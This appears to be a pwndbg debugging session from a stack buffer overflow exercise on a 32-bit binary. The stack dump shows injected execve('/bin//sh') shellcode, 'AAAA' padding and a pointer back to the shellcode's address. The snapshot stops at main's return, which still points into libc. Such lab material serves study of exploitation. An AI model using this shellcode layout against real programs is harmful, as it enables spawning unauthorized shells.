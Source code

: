 ```plaintext
02:0008│-040     0xff8d7208 ◂— 0x6e69622f ('/bin')
03:000c│-03c     0xff8d720c ◂— 0x168e389
04:0010│-038     0xff8d7210 ◂— 0x81010101
05:0014│-034     0xff8d7214 ◂— 0x69722434 ('4$ri')
06:0018│-030     0xff8d7218 ◂— 0xc9310101
07:001c│-02c     0xff8d721c ◂— 0x59046a51
──────────────────────────────────[ BACKTRACE ]───────────────────────────────────
 ► 0 0x8048541 main+102
   1 0xf6503bd7
   2 0xf6503c9d __libc_start_main+141
   3 0x8048401 _start+33
──────────────────────────────────────────────────────────────────────────────────
pwndbg> stack 20
00:0000│ eax esp 0xff8d7200 ◂— 0x2f68686a ('jhh/')
01:0004│-044     0xff8d7204 ◂— 0x68732f2f ('//sh')
02:0008│-040     0xff8d7208 ◂— 0x6e69622f ('/bin')
03:000c│-03c     0xff8d720c ◂— 0x168e389
04:0010│-038     0xff8d7210 ◂— 0x81010101
05:0014│-034     0xff8d7214 ◂— 0x69722434 ('4$ri')
06:0018│-030     0xff8d7218 ◂— 0xc9310101
07:001c│-02c     0xff8d721c ◂— 0x59046a51
08:0020│-028     0xff8d7220 ◂— 0x8951e101
09:0024│-024     0xff8d7224 ◂— 0x6ad231e1
0a:0028│-020     0xff8d7228 ◂— 0x80cd580b
0b:002c│-01c     0xff8d722c ◂— 0x41414141 ('AAAA')
... ↓            4 skipped
10:0040│-008     0xff8d7240 ◂— 0xdeadbeef
11:0044│-004     0xff8d7244 —▸ 0xff8d7200 ◂— 0x2f68686a ('jhh/')
12:0048│ ebp     0xff8d7248 ◂— 0x0
13:004c│+004     0xff8d724c —▸ 0xf6503bd7 ◂— add esp, 10h
pwndbg> c
Continuing.

Breakpoint 1, 0x0804855a in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────
*EAX  0x0
*EBX  0xff8d7200 ◂— 0x2f68686a ('jhh/')
 ECX  0xf67138ac ◂— 0x0
 EDX  0x0
 EDI  0xf677bb60 (_rtld_global_ro) ◂— 0x0
 ESI  0x8048560 (__libc_csu_init) ◂— push ebp
*EBP  0x0
*ESP  0xff8d724c —▸ 0xf6503bd7 ◂— add esp, 10h
*EIP  0x804855a (main+127) ◂— ret
────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────
   0x8048551  <main+118>    mov    eax, 0
   0x8048556  <main+123>    mov    ebx, dword ptr [ebp - 4]
   0x8048559  <main+126>    leave
 ► 0x804855a  <main+127>    ret    <0xf6503bd7>
    ↓
   0xf6503bd7               add    esp, 10h
   0xf6503bda               sub    esp, 0ch
   0xf6503bdd               push   eax
   0xf6503bde               call   0f651e590h                    <exit>

   0xf6503be3               call   0f6570d20h                    <0xf6570d20>

   0xf6503be8               mov    eax, dword ptr [esp]
   0xf6503beb               lock sub dword ptr [eax + 290h], 1
────────────────────────────────────[ STACK ]─────────────────────────────────────
00:0000│ esp 0xff8d724c —▸ 0xf6503bd7 ◂— add esp, 10h
01:0004│     0xff8d7250 ◂— 0x1
```